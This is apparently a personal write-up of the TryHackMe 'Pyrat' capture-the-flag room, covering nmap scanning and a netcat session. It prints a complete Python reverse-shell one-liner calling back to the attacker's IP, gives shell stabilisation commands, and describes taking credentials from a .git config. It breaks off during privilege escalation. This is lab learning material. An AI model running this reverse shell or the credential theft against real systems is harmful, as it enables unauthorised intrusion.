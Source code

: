 Pyrat Tryhackme 23/11/2024
(This is a personal writeup to be consulted later)

#Enumeration  
We scan with nmap to see open ports and services :  
' sudo nmap -F -sV 10.10.178.180 '  
![image](https://github.com/user-attachments/assets/b6374aed-6089-4cf3-9298-4a0beb2769d4)  

we can see that there 2 open ports :  
Port 22 ssh and Port 8000 http-alt  

let's see what is running on the port 8000 using:  
'curl 10.10.178.180:8000'  
![image](https://github.com/user-attachments/assets/ec885b14-dc9e-442b-af08-9a299b4cf041)  

Try a basic connection means we need to use ' Netcat' : 
![image](https://github.com/user-attachments/assets/0d355efa-a531-485c-9395-b6b969a484bd)    
we can execute a python syntax , so we can try to obtain a reverse shell using python :  
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.40.71",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'  
now I open 2 terminals , one wich nc listener to capture the shell and the other one with the payload :  
Terminal Netcat :  
![image](https://github.com/user-attachments/assets/23ccb97c-ca66-4331-922b-271f5611a143)    
Terminal Payload :  
![image](https://github.com/user-attachments/assets/b2536a10-e470-4170-a0b5-e709680c6318)


after running the payload , nc has successfully captured the shell 
now let's stabilize the shell :  
'python3 -c 'import pty; pty.spawn("/bin/bash")'  
'export TERM=xterm'  
press Ctrl+Z
'stty raw -echo'  
![image](https://github.com/user-attachments/assets/f03f1fe1-3b34-4fa3-a987-63a7765be1d5)  
we got our shell stabilized .  

# EXPLOITATION  
there is another user on the machine called 'think'  
![image](https://github.com/user-attachments/assets/aaf2e52a-ec85-4d83-a912-28d1dd438493)  
after some exploration I found a file called '.git' :  
![image](https://github.com/user-attachments/assets/6232f76a-4b9b-430b-871b-5b8b46eef99f)  
let's see what is contains :  
I find a config file inside the git , lets open it !  :  
![image](https://github.com/user-attachments/assets/e63e6504-4145-4985-8e48-1ed9426af45d)
![image](https://github.com/user-attachments/assets/c4a67a85-bcef-4b1d-bf00-4b54070e792f)  
as you can see, I got the username and the password !  (credentials)  
let's try these credentials  
![image](https://github.com/user-attachments/assets/e422380b-359a-4df0-ba4c-80a57c97f826)  
and yeah ! I got access
![image](https://github.com/user-attachments/assets/3ed4ec53-dde7-47be-a8c4-ebd9619a2908)  
and like that , I got the user flag .  
now I need to get the root part , and I think I will spend more time on it

# PRIVILEGE ESCALATION  

on the nmap scan , we got ssh port open , so let's try to access it : 
![image](https://github.com/user-attachments/assets/06736aab-de68-46fe-b854-9629bc5079c7)  
on the bottom , there is a line 'You have mail' , let's search for it and see what is contains :  
![image](https://github.com/user-attachments/assets/0aea640d-91c4-44ec-a259-e4fe6d48c0ed)  
let's see what is the RAT that they talking about , more investigation :   
![image](https://github.com/user-attachments/assets/f73bb6a1-ab5f-43de-b72e-4385487ce64c)  
the old version of the rat is being deleted , but we can restore it ! :  

![image](https://github.com/user-attachments/assets/4a0b9ba5-46e0-4409-b527-1ae4edc1dc72)  
now this in stage I need to write scripts and automates somethings to know the endpoints  
which I currently I'm not capable of ! maybe in the future I will come back to complete solving this room  












